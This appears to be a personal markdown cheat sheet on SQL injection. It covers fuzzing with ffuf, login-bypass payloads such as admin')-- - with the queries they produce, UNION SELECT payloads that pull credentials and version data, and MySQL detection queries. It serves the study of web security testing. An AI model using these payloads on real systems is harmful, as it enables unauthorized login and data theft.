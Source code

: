 ```shell
ffuf -w ~/opt/wordlists/sqli.txt -u URL -fs ...
```
```sql
'
"
#
;
)
-- -
')-- -
")-- -
```


> [!NOTE]  Note
> We may have to use the URL encoded version of the payload. An example of this is when we put our payload directly in the URL 'i.e. HTTP GET request'
> To login as a specific user with SQLi we can't comment out the entire query

## Login Pages
Sometimes queries have () in them to run certain operations before others. If this is the case we'll have to add a close ) to close out the query and make it valid
```sql
Query:
SELECT * FROM logins WHERE (username='admin' AND id > 1) AND password = 'hash';

Payloads: 
admin')-- -
sqli' or id=5)-- -

New Query:
SELECT * FROM logins WHERE (username='admin')-- -' AND id > 1) AND password = 'hash';
SELECT * FROM logins WHERE (username='sqli' or id=5)-- -' AND id > 1) AND password = 'hash';
```

> [!NOTE] Note
> We add `or id=5` for cases we want to login using a specific user ID instead of a username

## Union Select
Attach a second query to the original one with `UNION SELECT`. Access other tables and databases.
The same amount of columns for both tables in the query is required for `UNION SELECT` so adding numbers beside column names will do the trick i.e `username,password,3,4,5`

```sql
SELECT * from products UNION SELECT username, password, 3, 4 from logins;
```
```sql
UNION SELECT 1,@@version,3,4-- -
UNION SELECT 1,user(),3,4-- -
```

MySQL detection
```sql
select @@version
SELECT POW(1,1) 
SELECT SLEEP(5)
```

